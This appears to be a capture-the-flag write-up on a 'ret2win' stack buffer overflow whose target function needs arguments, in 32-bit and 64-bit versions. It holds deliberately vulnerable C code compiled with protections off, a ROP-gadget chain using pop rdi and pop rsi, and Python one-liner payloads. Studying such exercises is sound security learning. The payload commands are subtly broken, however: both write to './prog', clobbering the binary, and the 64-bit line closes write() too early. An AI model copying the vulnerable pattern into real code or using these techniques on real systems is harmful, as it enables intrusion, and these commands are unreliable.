 ```c
#include <stdio.h>

void win(int first, int second)
{
    if (first == 0xdeadbeef && second == 0xc0debabe){
        printf("This function is TOP SECRET! How did you get in here?! :O\n");
    }else{
        printf("Unauthorised access to secret function detected, authorities have been alerted!!\n");
    }

    return;
}

void register_name()
{
    char buffer[16];

    printf("Name:\n");
    scanf("%s", buffer);
    printf("Hi there, %s\n", buffer);    
}

int main()
{
    register_name();

    return 0;
}
```

```bash
gcc prog.c -o prog -fno-stack-protector -z execstack -no-pie -m32
```

This `ret2win` challenge is slightly modified from the usual `ret2win` challenge. The `win` function requires 2 parameters `first` and `second` to hold a certain value.

To overwrite the return address, we can do the same thing as [[Ret2Win]]. Input 28 characters + the address of the `win` function.

After we jump to the `win` function, we'll need to add data of the parameters to the stack so that the function can read those parameters. Since the stack grows downwards, once we've overwritten the `win` return address, we can overwrite data in higher memory with our parameter data.

We don't need to write local variables to the stack, we need to write the return address (since every functions need that) along with the parameters. So we write the return address (since it's higher in the stack, and therefore, lower in the memory), then write parameter 1, then parameter 2. The return address could be just junk data because all we care about in this challenge is running the code inside the `win` function.

Here's the python script:

```python
python -c 'import sys; sys.stdout.buffer.write(b"A" * 28 + b"\x82\x91\x04\x08" + b"junk" + b"\xef\xbe\xad\xde" + b"\xbe\xba\xde\xc0")' > ./prog
```

Let's talk about the 64-bit version of this program. 

```c
#include <stdio.h>

void win(long first, long second)
{
    if (first == 0xdeadbeefdeadbeef && second == 0xc0debabec0debabe){
        printf("This function is TOP SECRET! How did you get in here?! :O\n");
    }else{
        printf("Unauthorised access to secret function detected, authorities have been alerted!!\n");
    }
}

void register_name()
{
    char buffer[16];

    printf("Name:\n");
    scanf("%s", buffer);
    printf("Hi there, %s\n", buffer);    
}

int main()
{
    register_name();

    return 0;
}
```

```bash
gcc prog.c -o prog -fno-stack-protector -z execstack -no-pie
```

The 64-bit version uses longer hex numbers to verify the `first` and `second` parameters. Another different thing about this is that the parameter will not be passed in to the function by the stack, it will be passed into the function by registers using the [System V AMD64 ABI](https://en.wikipedia.org/wiki/X86_calling_conventions#System_V_AMD64_ABI). So we need to somehow put our parameter data into the `rdi` and `rsi` registers.

Testing the input will give us that the 25th-32nd bytes of our input will overwrite the return address of `register_name`. We can put the parameter data into the parameter registers by utilizing some ROP (Return-oriented programming) gadgets. What we can do is insert a `pop rdi` along with our `rdi` value, then insert a `pop rsi` along with our `rsi` value. The `pop` instruction will be read by the program before the parameter value, then it will be popped from the stack and executed. When the `pop` instruction is executed, the parameter value will be on top of the stack, meaning it will be popped into the register specified by our `pop` instruction. We can use tools like [Ropper](https://github.com/sashs/Ropper) to generate the ROP gadget for `pop rdi` and `pop rsi`.

In this case, our `pop rdi` and `pop rsi` gadgets will be these 2:

```assembly
0x40124b: pop rdi; ret
0x401249: pop rsi; pop r15; ret
```

So our payload structure will look something like this (We need to initialize the parameters before we overwrite the return address):

```
padding + pop_rdi + param1 + pop_rsi + param2 + junk_data + function_address
```

This is the python script:

```python
python -c 'import sys; sys.stdout.buffer.write(b"A" * 24 + b"\x4b\x12\x40\x00\x00\x00\x00\x00" + b"\xef\xbe\xad\xde\xef\xbe\xad\xde" + b"\x49\x12\x40\x00\x00\x00\x00\x00" + b"\xbe\xba\xde\xc0\xbe\xba\xde\xc0") + b"\x00\x00\x00\x00\x00\x00\x00\x00" + b"\x42\x11\x40\x00\x00\x00\x00\x00"' > ./prog
```